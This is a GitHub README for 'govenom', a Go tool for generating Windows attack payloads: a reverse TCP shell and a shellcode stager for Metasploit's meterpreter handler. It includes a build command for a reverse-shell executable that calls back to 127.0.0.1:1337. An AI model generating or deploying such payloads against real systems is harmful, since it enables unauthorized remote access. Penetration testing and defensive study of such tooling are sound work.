 # govenom

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms, although currently `govenom` has a
strong focus on Windows as payload target platform.

## Payloads

Currently, two payloads are supportet:

**reverse_shell:** A simple yet robust reverse TCP shell. A simple
heuristic determines the must suitable shell executable. In contrast
to most other available shells out there, additional info is sent
through the same TCP connection such that points of failure can be
narrowed down.

**stager**: A TCP based shellcode stager that is compatible with
Metasploits `exploits/multi/handler` with a `meterpreter/reverse_tcp`
payload. It first reads a 4 Byte shellcode length and then the
shellcode itself from a TCP connection and executes it.

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the reverse_shell for a 32-Bit Windows target that
connects back to `127.0.0.1:1337`:

```
go run .\govenom.go reverse_shell -d 127.0.0.1:1337 --os windows --arch 386 -o revsh.exe
```

## Planned Features

Currently, a debug log mechanism is under development that allows the
payloads to report errors or debug information through a variety of
exfiltration channels such as DNS. That way, the reason for payload
failure can be determined.